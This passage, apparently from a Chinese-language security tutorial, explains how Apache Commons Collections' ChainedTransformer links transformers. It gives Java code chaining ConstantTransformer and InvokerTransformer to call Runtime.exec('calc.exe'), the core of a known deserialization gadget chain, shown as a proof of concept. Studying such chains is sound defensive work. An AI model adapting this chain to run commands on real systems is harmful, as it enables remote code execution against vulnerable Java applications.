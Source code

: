 ![image-20211130131713507](images/2.png)

构造函数传进去一个Transformer接口的数组赋值给iTransformers,再再transform方法中变量数组中的每个transform方法,还把上一个返回的对象传入下一个的transform方法中

那我们只要把上面命令执行的代码,依次放到Transformer数组里即可,所以修改上面代码为

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", null
        }
        ),
        new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, null
        }
        ),
        new InvokerTransformer("exec", new Class[]{
                String.class}, new Object[]{
                "calc.exe"
        }
        )
};
ChainedTransformer chain = new ChainedTransformer(transformers);
chain.transform(null);
```
